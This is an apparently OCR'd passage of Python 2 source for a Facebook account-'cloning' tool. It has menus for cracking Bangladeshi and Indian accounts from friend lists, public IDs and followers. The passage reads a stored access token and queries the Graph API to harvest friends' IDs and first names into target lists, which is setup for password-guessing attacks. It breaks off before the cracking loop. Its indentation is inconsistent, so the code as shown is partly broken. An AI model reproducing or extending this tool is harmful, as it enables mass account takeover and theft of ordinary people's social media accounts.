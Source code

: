 def bangla_india():
    os.system("clear")
    print logo
    os.system("python3 .loading.md")
    os.system('clear')
    print logo
    print("\033[1;97m[1]\033[1;91m-⋄-\033[1;97mRandom Bangladesh Cloning")
    print("\033[1;97m[2]\033[1;91m-⋄-\033[1;97mRandom India Cloning")
    print("\033[1;97m[0]\033[1;91m-⋄-\033[1;97mBack")	
    print("\033[1;97m--------------------------------------------------")
    bangla_india_man()
def bangla_india_man():
    option = raw_input("\n╰─➣ ")
    if option =="1":
        bangla()
    if option =="2":
        indiaa()
    if option =="0":	
          menu()
    else:
          print ("[!] Please Select a Valid Option")
          bangla_india_man()		
	
def bangla():
	global token
	os.system("clear")
	try:
		token=open(".login.txt","r").read()
	except IOError:
		print("[!] Error 404 . Token Not Found")
		os.system("rm -rf .login.txt")
		time.sleep(1)
		login()
	os.system("clear")
	print logo
	os.system("python3 .loading.md")
        os.system('clear')
        print logo
	print("\t   Bangladesh Menu")
	print("\033[1;97m--------------------------------------------------")
	print ("\033[1;97m[1]\033[1;91m-⋄-\033[1;93mCrack From Friend List")
	print ("\033[1;97m[2]\033[1;91m-⋄-\033[1;93mCrack From Public ID")
	print ("\033[1;97m[3]\033[1;91m-⋄-\033[1;93mCrack From Followers")
	print ('\033[1;97m[0]\033[1;91m-⋄-\033[1;93mBack')
	print("\033[1;97m--------------------------------------------------")
	bangla2()
def bangla2():
	select = raw_input("\n╰─➣ ")
	id=[]
	oks=[]
	cps=[]
	if select=="1":
		os.system("clear")
		print logo
		print("\t\033[1;93m  Clone From Frienlist\033[1;0m")
		print("\033[1;97m--------------------------------------------------")
		r = requests.get("https://graph.facebook.com/me/friends?access_token="+token, headers=header)
		z = json.loads(r.text)
		for s in z["data"]:
			uid=s['id']
			na=s['name']
			nm=na.rsplit(" ")[0]
			id.append(uid+'|'+nm)
	elif select =="2":